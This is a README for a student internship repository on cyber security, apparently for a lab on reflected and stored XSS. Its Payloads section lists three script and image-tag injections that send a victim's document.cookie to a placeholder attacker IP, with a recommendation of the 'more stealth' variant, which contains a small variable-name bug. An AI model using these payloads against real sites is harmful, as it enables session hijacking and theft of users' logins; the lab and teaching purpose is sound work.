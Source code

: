 # Internship cyber security course
This repository collects tools and methodologies used in the context of system security intership
## Students
1. Dario Collini
2. Andrea Di Caro
## Analyzed vulnerabilities
- XSS reflected
- XSS stored

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
Not the best approach, generates a bunch of requests, very loud

    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
More stealth, use this one

    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>

## TODO Filippo
Upload source files

## TODO Andrea & Dario
1. describe the analyzed vulnerabilites (you can use external references)
2. describe the laboratory setup. we need to have Apache2 with PHP enabled. You can install a XAMP server or use a docker container
3. describe the attacks scenario
4. describe the mitigation actions

